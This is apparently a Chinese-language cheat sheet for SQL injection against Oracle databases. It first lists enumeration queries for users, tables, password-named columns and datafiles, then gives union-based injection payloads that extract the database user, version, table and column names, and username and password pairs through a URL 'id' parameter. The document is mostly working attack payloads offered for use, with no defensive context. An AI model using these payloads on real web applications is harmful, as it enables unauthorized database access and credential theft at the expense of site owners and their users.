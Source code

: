 

## 常用查询

```bash
# 查看数据库版本
SELECT user FROM dual UNION SELECT * FROM v$version

# 查看当前用户：
SELECT user FROM dual;

# 列出所有用户：
SELECT username FROM all_users ORDER BY username;

# 列出数据库
SELECT DISTINCT owner FROM all_tables;

# 列出表名：
SELECT table_name FROM all_tables;
SELECT owner, table_name FROM all_tables;
SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%PASS%';

# 列出字段名：
SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’;
SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’ and owner = ‘foo’;

# 定位DB文件：
SELECT name FROM V$DATAFILE;
```





## 联合注入

```
?id=-1' union select user,null from dual--

?id=-1' union select version,null from v$instance--

?id=-1' union select table_name,null from (select * from (select rownum as limit,table_name from user_tables) where limit=3)--

?id=-1' union select column_name,null from (select * from (select rownum as limit,column_name from user_tab_columns where table_name ='USERS') where limit=2)--

?id=-1' union select username,passwd from users--

?id=-1' union select username,passwd from (select * from (select username,passwd,rownum as limit from users) where limit=3)--
```

###  
